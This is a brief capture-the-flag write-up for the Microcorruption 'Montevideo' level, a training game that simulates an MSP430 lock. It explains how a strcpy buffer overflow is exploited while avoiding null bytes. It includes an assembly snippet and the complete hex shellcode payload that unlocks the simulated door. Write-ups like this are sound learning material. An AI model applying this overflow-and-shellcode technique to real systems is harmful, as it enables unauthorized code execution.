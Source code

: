 # Microcorruption Montevideo Write-up

This looks pretty much like Whitehorse, and it is still allowing excess input. The only difference is this version uses *STRCPY* to copy the input from the location in memory where it is originally read to back to our stack. Unfortunately, this means it doesn't copy past a null byte, as that is the string terminating character. Our old shell code contained 7f00 which we needed to push to the stack. In this case, we get around it by adding two values that do not have any null bytes to get to 007f.

```
mov #0xfe8e, r12
add #0x01f1, r12
push r12
call #0x454c
jmp #0x4656
```

Final shell code is **FFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF0244FFFF3c408efe3c50f1010c12b0124c45ff3f**.
